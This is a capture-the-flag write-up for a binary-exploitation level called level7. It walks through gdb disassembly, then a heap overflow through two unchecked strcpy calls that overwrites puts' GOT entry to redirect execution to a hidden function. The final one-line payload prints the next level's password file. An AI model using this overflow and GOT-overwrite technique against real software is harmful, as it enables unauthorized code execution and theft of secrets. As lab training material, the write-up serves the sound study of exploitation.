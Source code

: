 # Level 7

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
```

## Testing the program

```bash
$ ./level7 
Segmentation fault (core dumped)

$ ./level7 hello
Segmentation fault (core dumped)

$ ./level7 hello you
~~

$ ./level7 hello to you
~~

$ ./level7 good day to you
~~
```

We have a program which takes at least two arguments and segfaults if otherwise.

## Learning more

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
(gdb) 
```

Juste before the call to fopen we have this 
```bash 
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) 

```

Our observations : 
```plaintext
    • The program allocates twice with malloc for each argv[1] && argv[2].
    • It uses strcpy() twice to copy the arguments from the command line
    • There is an fopen("/home/user/level8/.pass", "r"), then read the file with fgets() into a global variable called c. 
    • Then it does a puts() with the '~~' but not the content of the file.
```


## Hidden M function

```bash
(gdb) info functions
[...]
0x080484f4  m
0x08048521  main
(gdb) 
```

We see that there is an uncalled m function. 
```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
(gdb) 
```

```bash
$ x/s 0x8049960
0x8049960 <c>:	 ""
```

The m function : 

```plaintext
    • Display the current time with time()
    • Display the content of the global variable c, which contains the content of the .pass file 
```


## Getting acces to the pass 

Our goal is going to be to call the m() function so that it displays the c global variable and therefore the .pass file. 

1. Using strcpy

The program calls strcpy() twice, once with the content of argv[1] and once with argv[2], since it doesn't check the size we are going to use that to redirect to the m() function.

2. GOT overwrite

Like in a previous level, we know that puts is called and is found thanks to the GOT. 

```bash
$ info function puts
0x08048400  puts@plt
(gdb) x/i 0x08048400
0x8048400 <puts@plt>:	jmp    *0x8049928
```

We want to replace the puts address which is 0x8049928 by m's address which is 0x080484f4. 

3. Finding the offset 

```bash
ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
__libc_start_main(0x8048521, 2, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                           = 0x0804a008
malloc(8)                                                                           = 0x0804a018
malloc(8)                                                                           = 0x0804a028
malloc(8)                                                                           = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                           = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Again using the pattern generator we found that this address, 0x37614136, corresponds to an offset of 20. 


4. Building the payload


```plaintext
    • 1st argument - Writes until reaching the GOT entry of puts
        • 20 chars ("a" * 20)
        • puts address in GOT -> 0x8049928 --> \x28\x99\x04\x08
    • 2nd agument - Overwrite puts address so that it points to m()
        • m()'s function address --> 0x080484f4 --> \xf4\x84\x04\x08
```


```bash
$ ./level7 $(python -c 'print "a"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1753975972
```